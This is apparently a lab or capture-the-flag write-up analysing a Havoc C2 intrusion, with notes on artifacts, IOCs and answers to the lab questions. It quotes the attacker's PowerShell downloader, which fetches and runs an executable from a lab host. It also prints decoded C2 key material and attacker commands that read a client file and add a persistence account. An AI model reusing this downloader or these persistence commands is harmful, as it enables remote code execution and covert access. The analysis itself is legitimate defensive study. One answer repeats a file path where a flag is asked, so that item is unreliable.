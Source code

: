 - **install.ps1**

![[../../Image/Pasted image 20250423091359.png]]

```
$aysXS8Hlhf = "http://10.0.2.37:1337/notepad.exe";
$LA4rJgSPpx = "C:\Users\paco\Downloads\notepad.exe";
Invoke-WebRequest -Uri $aysXS8Hlhf -OutFile $LA4rJgSPpx;
$65lmAtnzW8 = New-ObjectSystem.Net.WebClient;$65lmAtnzW8.DownloadFile($aysXS8Hlhf, $LA4rJgSPpx);
Start-Process -Filepath $LA4rJgSPpx
```
- **Object list:**
![[../../Image/Pasted image 20250423095009.png]]
- **notepad.exe**
![[../../Image/Pasted image 20250423100437.png]]
- **Havoc Artifact** from network traffic
```
[+] Parsing Request
[+] Found Havoc C2
  [-] Agent ID: 0e9fb7d8
  [-] Magic Bytes: deadbeef
  [-] C2 Address: http://10.0.2.37/
  [+] Found AES Key
    [-] Key: 946cf2f65ac2d2b868328a18dedcc296cc40fa28fab41a0c34dcc010984410ca
    [-] IV: 8cd00c3e349290565aaa5a8c3aacd430
```
## IOCs
#### **IP Address:**
- hxxp[:]//10.0.2.37
#### **File:**
- /install.ps1
- /notepad.exe
- /notepad.exe

---
## Answer the question

- What is the SID of the user that the attacker is executing everything under?

![[../../Image/Pasted image 20250423101147.png]]

- What is the Link-local IPv6 Address of the server? Enter the answer exactly as you see it.

![[Pasted image 20250422232038.png]]
=> **fe80::e134:1b0c:c8d5:3020%6**

- The attacker printed a flag for us to see. What is that flag?

![[Pasted image 20250422232647.png]]

- The attacker added a new account as a persistence mechanism. What is the username and password of that account? Format is **username:password** 

![[Pasted image 20250422225827.png]]
```
dir C:\Users\paco\Desktop\
type C:\Users\paco\Desktop\Files\clients.csv
ipconfig
net user administrator WfD3hz3AXZ4n /add
```

- The attacker found an important file on the server. What is the full path of that file?

![[Pasted image 20250422232845.png]]
=> **C:\Users\paco\Desktop\Files\clients.csv**

- What is the flag found inside the file from question 5?

![[Pasted image 20250422232446.png]]
=> **C:\Users\paco\Desktop\Files\clients.csv**

![[Pasted image 20250423091003.png]]
